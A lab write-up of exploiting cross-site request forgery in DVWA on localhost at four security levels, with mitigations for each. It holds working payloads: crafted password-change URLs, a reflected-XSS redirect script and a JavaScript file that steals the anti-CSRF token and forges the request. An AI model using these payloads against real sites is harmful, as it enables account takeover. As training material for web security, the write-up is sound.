




# Cross-Site Request Forgery (CSRF)

**Target:** DVWA v1.9
**Environment:** XAMPP (Apache/MySQL/PHP 5.6.40) on localhost

## Overview

Cross-Site Request Forgery (CSRF) is a vulnerability that tricks an authenticated user's browser into unknowingly submitting a request to a web application on their behalf. Because the browser automatically attaches the user's session cookies to any request sent to that domain, the server has no way to tell a legitimate, user-initiated request apart from one an attacker crafted — unless the application adds its own protection on top of session cookies.

In this module, the vulnerable action is a **password change** form. Each security level adds a new layer of defense, and each is broken (or holds) in a different way.

---

## Low

### Vulnerability

At Low security, the password change endpoint accepts `password_new` and `password_conf` as GET parameters with no token, no referer check, and no confirmation step. Any request carrying valid session cookies — however it was triggered — is trusted.

### Exploitation

A password change was triggered directly via a crafted URL, without going through the form:

```
http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=password1&password_conf=password1&Change=Change
```

Visiting this URL while logged in as `admin` changed the account password to `password1` with no confirmation prompt and no warning.

**Result:** `Password Changed.`



### Why it worked

There is no anti-CSRF token, no verification that the request originated from the DVWA form, and no re-authentication step. In a real attack, this URL could be embedded as an `` tag, a redirect, or an auto-submitting form on an attacker-controlled page — as soon as a logged-in victim's browser loaded it, their password would change without their knowledge.

### Recommended Fix

Add a unique, unpredictable, per-session anti-CSRF token to the form and validate it server-side on submission.

---

## Medium

### Vulnerability

At Medium security, the server adds a check on the `HTTP_REFERER` header — it verifies that the request appears to have come from a page on the same domain (`stristr($_SERVER['HTTP_REFERER'], SERVER_NAME)`), rather than an external attacker's site.

### Exploitation

Rather than crafting a payload on an external, attacker-controlled page (which would fail the referer check), the exploit was delivered by chaining through DVWA's own **XSS (Reflected)** page. Since the injected payload executes in a page that is itself part of the `dvwa` domain, the `Referer` header sent by the resulting request still points to `127.0.0.1` — satisfying the check.

Payload submitted on the XSS Reflected page, which redirected to the CSRF password-change endpoint:

```
http://127.0.0.1/dvwa/vulnerabilities/xss_r/?name=<script>window.location='http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change'</script>
```

**Result:** password changed to `newpass`.



### Why it worked

The Medium-level defense checks *where the request appears to come from*, not *whether the user intended to make it*. `stristr()` performs only a substring match against the server name — it doesn't verify the referer is the actual CSRF form page, so any same-origin page (including a page vulnerable to XSS) is enough to satisfy it. This demonstrates a classic case of one vulnerability (XSS) being used to bypass the mitigation for a different vulnerability (CSRF).

### Recommended Fix

Referer checking is inherently weak (headers can be missing, spoofed in some contexts, or bypassed via same-origin XSS) — it should never be relied on as a standalone CSRF defense. It must be paired with, or replaced by, a proper anti-CSRF token.

---

## High

### Vulnerability

At High security, the referer check is replaced with a genuine **anti-CSRF token**. Each page load generates a unique `user_token`, stored server-side in `$_SESSION['session_token']`, and embedded in a hidden form field. On submission, `checkToken()` verifies the submitted token matches the one tied to the current session before processing the password change. A static, pre-crafted payload URL — like the ones used for Low and Medium — no longer works, because it would need to guess a token that is regenerated on every page load.

### Exploitation approach

**Manual proof-of-concept (successful):**

A fresh anti-CSRF token was captured directly from the page source immediately after loading the CSRF page:

```html
<input type='hidden' name='user_token' value='96a1a35fc05eea1100d5c941dedaa0df' />
```

That token was immediately used in a hand-built request:

```
http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=test123&password_conf=test123&Change=Change&user_token=96a1a35fc05eea1100d5c941dedaa0df
```

**Result:** `Password Changed.` — confirmed by logging in with `admin` / `test123`.



**Automated attempt (partially successful — documented for completeness):**

To simulate a realistic attack chain (an attacker who doesn't have manual access to the victim's session), a script (`high.js`) was written and hosted at `http://127.0.0.1/high.js`:

```javascript
// high.js - steals the current CSRF token and submits a password change
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://127.0.0.1/dvwa/vulnerabilities/csrf/", true);
xhr.withCredentials = true;
xhr.onreadystatechange = function() {
  if (xhr.readyState === 4 && xhr.status === 200) {
    var parser = new DOMParser();
    var doc = parser.parseFromString(xhr.responseText, "text/html");
    var token = doc.querySelector("input[name='user_token']").value;
    var img = new Image();
    img.src = "http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=test123&password_conf=test123&Change=Change&user_token=" + token;
  }
};
xhr.send();
```

Delivered via the same XSS Reflected chaining technique used in Medium:

```html
<script src="http://127.0.0.1/high.js"></script>
```

The script's logic mirrors the real attack pattern used against High-level CSRF protections in the wild: fetch the victim's current session-bound token via a same-origin XHR request (which automatically carries session cookies), parse it out of the response, then fire the actual state-changing request with that token attached — all without the victim ever seeing it happen. In this environment, the automated end-to-end chain did not reliably complete (likely a timing or DOM-parsing issue specific to this browser/OS combination), so the vulnerability was ultimately confirmed via the manual method above.

### Why it worked (and what the automation attempt demonstrates)

The anti-CSRF token by itself only protects against an attacker who **cannot read** the victim's page content — a pure "blind" CSRF attacker sending a forged request has no way to know the correct token. However, the token is not bound to anything except the session; it does not require re-entering a password or any other secret. This means **any vulnerability that lets an attacker execute JavaScript in the victim's authenticated session** (such as the site's own Reflected XSS flaw) can read the token directly off the page and complete the attack automatically. High-level CSRF protection is therefore only as strong as the absence of other injection vulnerabilities on the same origin — a token alone does not fully close the CSRF risk if XSS exists elsewhere on the site.

### Recommended Fix

A CSRF token prevents blind, cross-origin forgery, but should be combined with:
- `SameSite=Strict` (or `Lax`) cookies, to prevent the token-fetch request itself from carrying session cookies in a cross-site context
- Eliminating XSS vulnerabilities elsewhere on the application, since they can be used to read tokens directly
- Requiring re-authentication (e.g. current password) for sensitive actions, as seen at the Impossible level

---

## Impossible

### Vulnerability

At Impossible security, the form adds a required **`password_current`** field. The submitted current password is hashed (MD5) and checked via a parameterized query against the database for the logged-in user, in addition to the existing anti-CSRF token check. Both checks must pass for the password to change.

```php
$data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
$data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
$data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
$data->execute();

if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
    // password changed
}
```

### Exploitation attempt (failed, as expected)

A fresh token was captured the same way as in the High-level test, and the request was submitted with an incorrect current password:

```
http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_current=wrongpass&password_new=test123&password_conf=test123&Change=Change&user_token=<fresh_token>
```

**Result:** `Passwords did not match or current password incorrect.`



### Why it fails

Even with a stolen, valid anti-CSRF token and an active session (the two things the High-level exploit relied on), the attacker still cannot complete the request without knowing the victim's **current password** — information that is never stored client-side, never sent automatically by the browser, and cannot be extracted through the XSS-chaining technique used against High (since the token-stealing script has access to the page's DOM, not the user's secrets). This shifts the requirement from "something the browser has" (a token, a cookie) to "something only the legitimate user knows," which is precisely what defeats CSRF at its root: the attacker can forge the *request*, but not the *knowledge* behind it.

### Fix (Confirmed Effective)

This is the fix: require a secret the victim knows (and the attacker doesn't) for any sensitive state-changing action, in addition to standard token-based CSRF protection. The same pattern applies broadly — re-authentication or step-up verification for high-impact actions (password changes, email changes, financial transactions) closes the gap that a token alone leaves open.

---

## Summary

| Level | Defense | Bypassed? | Method |
|---|---|---|---|
| Low | None | ✅ Yes | Direct crafted URL |
| Medium | `HTTP_REFERER` check | ✅ Yes | Chained through same-origin XSS Reflected page |
| High | Anti-CSRF token (session-bound) | ✅ Yes | Manual token capture + reuse; scripted token-theft via XSS attempted |
| Impossible | Token + required current password | ❌ No | Confirmed request correctly rejected |

**Key takeaway:** CSRF protection is only as strong as its weakest supporting control. A referer check alone is trivial to bypass. A token alone can be defeated if the application has other injection flaws (like XSS) that let an attacker read it. The only level that fully closed the gap was the one requiring a secret the attacker could not obtain through any technical means — the victim's current password.
